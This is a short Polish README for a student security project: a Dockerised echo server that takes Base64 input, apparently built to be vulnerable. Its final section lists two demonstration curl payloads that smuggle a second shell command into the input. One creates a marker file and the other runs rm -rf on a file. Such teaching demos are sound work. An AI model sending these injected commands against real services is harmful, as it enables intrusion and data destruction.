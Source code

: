# TBO_Projekt

## Budowa

`mvn clean package`

`sudo docker build -t demo-app .`

`sudo docker run -d --network=host demo-app`

## Działanie

Serwer echo nasłuchuje nadchodzących wiadomości zakodowanych w Base64:

`curl -X POST "http://localhost:8081/execute" --data-binary "$(echo -n 'Hello' | base64)"`

## Sprawdzenie kontenera

Uzyskanie ID kontenera:

`sudo docker ps`

Odczyt logów:

`sudo docker logs <ID_kontenera>`

Otwarcie terminalu kontenera:

`sudo docker exec -it <ID_kontenera> bash`

## Eksploitacja/ładunki

Przykłady do demonstracji:

`curl -X POST "http://localhost:8081/execute" --data-binary "$(echo -n 'Hello=\0 && touch /tmp/hacked' | base64)"`

`curl -X POST "http://localhost:8081/execute" --data-binary "$(echo -n 'Hello=\0 && rm -rf /tmp/important_file' | base64)"`

